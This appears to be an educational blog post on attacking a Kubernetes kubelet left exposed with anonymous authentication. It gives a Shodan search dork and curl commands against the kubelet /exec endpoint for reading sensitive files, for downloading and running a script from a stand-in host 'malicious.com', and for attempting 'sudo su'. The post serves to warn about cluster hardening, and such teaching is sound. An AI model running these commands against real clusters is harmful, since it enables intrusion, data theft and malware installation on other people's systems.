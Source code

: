 # Hacking Kubernetes Kubelet

⚠️ ATTENTION, THIS POST IS FOR EDUCATIONAL PURPOSES ONLY.  

Securing the components of our Kubernetes clusters must be a priority: Kubernetes is notorious for having default settings that are too permissive and hardening measures are often either neglected or focused solely on the API server.

Here's a real-world scenario of what could go wrong:

Our friendly neighborhood sysadmin, Joe, configured a cluster in a risky manner by exposing the kubelet to the internet with anonymous authentication enabled.

A malicious actor is conducting passive reconnaissance on Shodan using the following dork:
𝘬𝘶𝘣𝘦𝘭𝘦𝘵 𝘱𝘰𝘳𝘵:10250

The malicious hacker discovers Joe's cluster, with the kubelet service exposed on the hypothetical host "vulnerablehost" and port 10250.  
At this point, the attacker can attempt a discovery (according to the MITRE ATT&CK framework) with the following command:  

```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘱𝘰𝘥𝘴 | 𝘫𝘲 .
```  


Since kubelet runs with the 𝐚𝐧𝐨𝐧𝐲𝐦𝐨𝐮𝐬-𝐚𝐮𝐭𝐡 flag set to true (default), the attacker will obtain a list of all the pods running on the cluster.  
From now on, if debug endpoints are enabled, the hacker can proceed with malicious actions such as  

Exfiltrate Data:  
```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘦𝘹𝘦𝘤/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦𝘴𝘱𝘢𝘤𝘦>/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦>/<𝘤𝘰𝘯𝘵𝘢𝘪𝘯𝘦𝘳_𝘯𝘢𝘮𝘦> -𝘟𝘗𝘖𝘚𝘛 -𝘥 '𝘤𝘮𝘥=𝘤𝘢𝘵 /𝘱𝘢𝘵𝘩/𝘵𝘰/𝘴𝘦𝘯𝘴𝘪𝘵𝘪𝘷𝘦/𝘧𝘪𝘭𝘦'
```  


Remote Code Execution:  
```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘦𝘹𝘦𝘤/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦𝘴𝘱𝘢𝘤𝘦>/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦>/<𝘤𝘰𝘯𝘵𝘢𝘪𝘯𝘦𝘳_𝘯𝘢𝘮𝘦> -𝘟𝘗𝘖𝘚𝘛 -𝘥 '𝘤𝘮𝘥=𝘣𝘢𝘴𝘩 -𝘤 "𝘸𝘨𝘦𝘵 𝘩𝘵𝘵𝘱://𝘮𝘢𝘭𝘪𝘤𝘪𝘰𝘶𝘴.𝘤𝘰𝘮/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩 -𝘖 /𝘵𝘮𝘱/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩 && 𝘤𝘩𝘮𝘰𝘥 +𝘹 /𝘵𝘮𝘱/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩 && /𝘵𝘮𝘱/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩"'  

Privilege Escalation:  
```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘦𝘹𝘦𝘤/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦𝘴𝘱𝘢𝘤𝘦>/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦>/<𝘤𝘰𝘯𝘵𝘢𝘪𝘯𝘦𝘳_𝘯𝘢𝘮𝘦> -𝘟𝘗𝘖𝘚𝘛 -𝘥 '𝘤𝘮𝘥=𝘣𝘢𝘴𝘩 -𝘤 "𝘴𝘶𝘥𝘰 𝘴𝘶"'  
```  

At this point, I assure you that you wouldn't want to be in poor Joe's shoes.  

<br>  

- [Back to main page](../../../index.md)  
